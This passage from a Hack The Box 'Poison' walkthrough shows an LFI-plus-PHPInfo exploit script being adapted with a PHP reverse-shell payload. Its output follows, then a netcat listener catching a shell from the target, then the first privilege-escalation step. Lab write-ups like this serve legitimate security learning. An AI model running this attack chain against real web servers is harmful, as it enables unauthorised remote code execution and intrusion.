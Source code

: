 There is an exploit available on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py) that could trigger a RCE if a web server has a LFI vulnerability and also showed the PHPInfo webpage. This web server satisfies both the requirement.

Before we can use the exploit, we have to modify a few parameters in the script.

-   Change the `PAYLOAD` to the PHP reverse shell found on `/usr/share/laudanum/php/php-reverse-shell.php`.
-   Change the `LFIREQ` to `GET /browse.php?file=%s HTTP/1.1\r`.
-   Change all occurrences of `[tmp_name] =>` to `[tmp_name] =&gt`.

>   Couldn’t have done this without reading the writeup from this medium [article](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5).

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# python phpinfolfi.py 10.10.10.84 
Don't forget to modify the LFI URL
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 112940
Spawning worker pool (10)...
  10 /  1000
Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1234            
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 47661
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
 5:32AM  up 16 mins, 1 users, load averages: 0.28, 0.35, 0.27
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
charix     pts/1    10.10.14.2                                5:21AM    11 -cs 
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ whoami
www
```

# Privilege Escalation

Looking at `charix`'s home directory showed an interesting `secret.zip` file.

```bash
charix@Poison:~ % ls
secret.zip	user.txt
```
